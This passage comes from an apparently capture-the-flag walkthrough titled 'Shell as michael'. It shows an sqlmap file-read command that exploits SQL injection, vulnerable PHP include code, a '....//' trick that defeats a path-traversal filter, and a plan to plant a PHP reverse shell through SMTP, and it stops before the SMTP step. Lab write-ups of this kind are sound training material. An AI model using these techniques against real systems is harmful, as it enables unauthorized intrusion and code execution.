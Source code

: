 ```sh

        root /var/www/payroll;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}
```

# Shell as michael

On the new site we discovered (marketing), initially, there isn't
anything interesting. We will first read it's source code 
using file read from sql injection, and search for some way in.
We got absolute path to app from nginx config:

```sh
sqlmap -r login.req --batch --threads 10 --file-read=/var/www/market/index.php
```

Read file:

```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
	include("/var/www/market/".str_replace("../","",$file));
}
?>
```

As we can see, there is a "security measure" in place, that replaces
every "../" string with "". This can be easily bypassed, by using
"....//" instead to go back in file hierarchy. This would count as 
arbitrary file read, but since this server executes .php files, if
we manage to upload our own .php file, it will turn into remote
code execution.

Now back to the nmap scan, we can see that there is smtp server
running on our target. We can use it to "send email" (php revshell)
to user michael.

First, we will test if we can really do that.
We check if user michael exists for this smtp server:
